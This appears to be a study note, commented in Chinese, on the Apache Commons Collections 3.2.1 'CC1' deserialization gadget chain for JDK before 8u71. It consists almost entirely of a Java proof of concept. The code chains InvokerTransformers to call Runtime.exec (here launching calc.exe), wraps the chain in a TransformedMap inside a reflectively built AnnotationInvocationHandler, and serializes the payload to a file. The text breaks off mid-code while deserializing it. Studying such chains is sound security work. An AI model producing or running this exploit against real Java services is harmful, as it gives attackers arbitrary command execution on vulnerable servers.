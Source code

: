 ![](attachments/Pasted%20image%2020240408083213.png)
## CC1-TransformedMap-commons.collections 3.2.1\<JDK8u71

### 代码

```java
package org.cc.cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {
        //1.客户端构建攻击代码
        //此处构建了一个transformers的数组，在其中构建了任意函数执行的核心代码
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);

        //创建Map并绑定transformerChina
        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //反射机制调用AnnotationInvocationHandler类的构造函数
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        //取消构造函数修饰符限制
        ctor.setAccessible(true);
        //获取AnnotationInvocationHandler类实例
        Object instance = ctor.newInstance(Target.class, outerMap);

        //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(instance);

        //2.服务端读取文件，反序列化，模拟网络传输
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        //服务端反序列化
```